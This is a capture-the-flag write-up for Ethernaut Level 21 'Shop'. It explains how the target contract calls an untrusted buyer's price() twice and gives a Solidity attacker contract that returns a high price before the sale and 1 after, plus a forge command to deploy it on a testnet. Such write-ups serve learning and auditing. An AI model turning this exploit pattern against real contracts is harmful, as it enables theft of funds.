


<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 21 - Shop</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 21 - Shop](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-21-shop)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals



## The hack

The goal of the Shop challenge is to buy an item from the contract at a discount. How to do that? Let's check the `buy()` function:

```javascript
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
}
```

It seems that only a price equal to or greater than the current price will be accepted. However, the `price()` function is not a simple getter, but rather an interface without any logic. So what if we could set our own logic?

This is quite similar to the level [11 - Elevator](../solutions/11_Elevator.md). We can create a new contract that implements the `Buyer` interface and sets our custom logic for the `price()` function.

Now, we simply have to mess with this part:

```javascript
if (_buyer.price() >= price && !isSold) {
  isSold = true;
  price = _buyer.price();
}
```

Notice how the `price()` is called twice. Once to check that the price paid is enough, then again to set the price to its new value.
So we want `!sold` to be false and `price` to be more than 100 the first time to pass the condition, and then `!sold` to be true and `price` to be as little as possible the second time. And there will be our discount.

## Solution

Let's implement the code accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IShop {
    function isSold() external view returns (bool);

    function buy() external;
}

contract Discount {
    IShop shop;

    constructor(address _shop) {
        shop = IShop(_shop);
    }

    function price() public view returns (uint256) {
        return shop.isSold() ? 1 : 101;
    }

    function attack() public {
        shop.buy();
    }
}
```

Then run the script with the following command:

```bash
forge script script/21_Shop.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Don't change the state based on external and untrusted contracts logic.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
